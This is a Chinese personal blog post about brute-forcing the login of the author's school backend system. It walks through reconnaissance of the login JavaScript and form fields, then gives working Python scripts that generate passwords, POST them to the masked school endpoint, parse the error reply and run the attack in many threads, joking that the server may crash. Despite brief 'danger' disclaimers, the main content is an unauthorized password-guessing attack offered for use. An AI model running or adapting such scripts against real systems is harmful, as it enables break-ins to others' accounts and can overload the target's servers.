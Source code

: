 ```yaml
---
title: 「危」暴力攻入学校的后台系统
date: 2021-05-29
categories: 日常
toc: true
tags:
  - 网络渗透
headimg: https://www.hualigs.cn/image/60b24cbc1d501.jpg
---
```


{% note warning, 危险操作，请酌情采用，本文仅提供暴力破解的思路，从一个实例中学习 %}

本文不是专门针对学校，只是因为学校的服务器防御力比较高，在受到攻击的时候会很自觉地返回 **服务器压力过大**，即使从理论上来讲给埃拉两三年的时间可以破解进去，但是学校的响应速度也真的是感人，是个人都没有这种耐心（毕竟我没有那么多钱去应酬云服务器，而且浪费时间在这种无价值的地方也不是上策）

<!-- more -->

{% span center h1, 生成、创建进程、发送、等返回、关闭，一气呵成 %}

## 侦察任务，勘探地形

如果你仔细发掘一下终端，你会发现几个重要的入口，埃拉这里是 `/theme/js/login.js` 的 Javascript 文件

![](https://www.hualigs.cn/image/60b25080753d8.jpg)

然后打开它来研究研究，你会发现存储用户名的变量竟然叫 `usrname`，密码是 `passwd`，并且序列化后就毫不犹豫地 POST 出去了，那么我们自己用 Postman 来试试看行不行

![](https://www.hualigs.cn/image/60b250ffbdabb.jpg)

然后装模做样地写好要传过去的数据（`学生会1` 这个用户名是埃拉通过小道消息得来的，通常你们可以试试看 admin 之类的）

![](https://www.hualigs.cn/image/60b2522570d02.jpg)

然后我们可以看到 `<p class="error">登录失败，密码错误.</p>` 这样的返回值（如果用户名不存在则会直接提示 `用户不存在`），现在我们就大概知道了几个重要的信息：

- 被攻击者的 URL
- 需要提供的数据
- 返回的数据

## 通过字典生成密码

```python
import itertools as its

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@." # 你觉得可能出现的字符，密码多为 ASCII 码字符
    count=0
    for num in range(6,20): # 指定密码位数，这里是从 6~20 位
        keys=its.product(words,repeat=num)
        for key in keys:
            print("".join(key)) # 此时 "".join(key) 即为生成的密码
            count += 1
```

## 发送数据，处理返回值

```python
import requests
from bs4 import BeautifulSoup

def inject(passwd): # 这里传入刚刚生成的密码
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxx.php/base/login'  # 这里屏蔽一下 ipv4，免得学校找我麻烦
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "", # 问问你高二高三的学长，他们可能会告诉你用户名
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml') # 使用 bs4 对返回的 html 进行解析
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.": # 剖析 html，提取出这个返回信息，如果不是这个返回信息，那就对了（因为用户名是已知的（对埃拉而言））
            print("[√ 成功破解] The PASSWD is '"+ passwd +"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd +"\n") # 保存正确的密码
                file.close()
        else:
            print("[× 错误] "+passwd+"\n") # 输出错误的密码
    except:
        print("[× 异常] "+passwd+"\n") # 抛出异常
```

## 提升破解效率

如果我们只是使用刚刚的方法，那么每一次的破解都会在上一个破解完成后才进行，这样会 **很慢很慢**，所以我们可以使用多线程来克服这个问题，最终的代码如下

```python
"""
🍀 本代码理论上可行，但是需要充足的时间，起码三年吧，不取决于你的算力，而是他们的反应能力（恕我直言，我实在没见过这么垃圾的服务器）
【本代码在正常情况下禁止运行（除非迫不得已），否则后果自负！】
如果你要问我为什么搞这个，那么就问问考试院为什么要加 Python，以及，学校图书馆为什么教会了我爬虫和数据解析
"""
import requests
from bs4 import BeautifulSoup
import itertools as its
import _thread
import time

def inject(passwd,thread_name):
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxxx.php/base/login'
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "",
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml')
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.":
            print("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
                file.close()
        else:
            print("[× 错误] "+passwd+" 线程名："+thread_name+"\n")
    except:
        print("[× 异常] "+passwd+" 线程名："+thread_name+"\n")
    _thread.exit() # 退出当前线程

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@."
    count=0
    for num in range(6,20):
        keys=its.product(words,repeat=num)
        for key in keys:
            _thread.start_new_thread( inject, ("".join(key), "Thread-"+str(count), ) )
            time.sleep(0.05) # 如果你调成更小的数值，你就等校领导找上门来吧，因为服务器会直接崩溃！
            count += 1

if __name__ == "__main__":
    crack()
```

{% note error, 请注意控制好线程创建速度！如果你设置得太小，就算你的计算机承受的住，人家的服务器可能承受不住~ %}

OK，就这么多了，同样的代码我已经发布到 Github Gist 上，可以进行查阅！🍀后续可能会再出一些克服验证码的方案！